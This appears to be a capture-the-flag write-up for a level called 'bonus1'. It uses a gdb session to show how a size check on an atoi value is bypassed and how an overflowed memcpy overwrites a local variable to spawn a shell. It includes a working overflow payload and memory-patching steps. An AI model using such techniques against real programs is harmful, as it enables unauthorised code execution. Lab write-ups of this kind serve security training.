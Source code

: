 ## Over and under the flow (bonus1)

This [binary](source.c) takes at least an argument or it segfaults. The
[atoi](https://linux.die.net/man/3/atoi) function is called on it. The result,
let's call it _n_ must be less than 10 for the second argument to be copied
into _main_'s local buffer. Finally _n_ must be equal to 0x574f4c46 for
[execl](https://linux.die.net/man/3/execl) to open a shell.

A simple [memcpy](https://linux.die.net/man/3/memcpy) is used to copy the second
argument's contents into _main_'s 40 bytes _buffer_. The size parameter passed
to is is _n_ * 4. So the name of the game here is to find a value for that will
pass the first test (be less than 10) and that multiplied by 4 will overflow to
a value big enougth for overwring _n_ itself with the value it is compared
against.

First, skip the first test and find a working payload for the second argument:

```shell
# run gdb on the binary
gdb ./bonus1
# see the main
(gdb) disass main
Dump of assembler code for function main:
...
0x08048468 <+68>:    mov    %ecx,0x8(%esp)
0x0804846c <+72>:    mov    %edx,0x4(%esp)
0x08048470 <+76>:    mov    %eax,(%esp)
0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
0x08048478 <+84>:    cmpl   $0x574f4c46,0x3c(%esp)
...
End of assembler dump.
# break just before the memcpy call to see its arguments
(gdb) b *0x08048473
Breakpoint 1 at 0x8048473
# run with 1 as a value for n and what should be our payload
(gdb) run 1 `python -c 'print "a" * 40 + "\x57\x4f\x4c\x46"[::-1]`
Starting program: /home/user/bonus1/bonus1 1 `python -c 'print "a" * 40 + "\x57\x4f\x4c\x46"[::-1]'`

Breakpoint 1, 0x08048473 in main ()
# the destination buffer
(gdb) x $eax
0xbffffaf4:     0x00080000
# the second argument (argv[2])
(gdb) x $edx
0xbffffd2a:     0x61616161
# the n value * 4 for the size
(gdb) x $ecx
0x4:    Cannot access memory at address 0x4
# which is located here
(gdb) x $esp + 8
0xbffffae8:     0x00000004
# if we replace it with the length of our payload
(gdb) set *0xbffffae8 = 44
(gdb) x $esp + 8
0xbffffae8:     0x0000002c
# and run
(gdb) c
Continuing.
# we're in
process 22942 is executing new program: /bin/dash
```
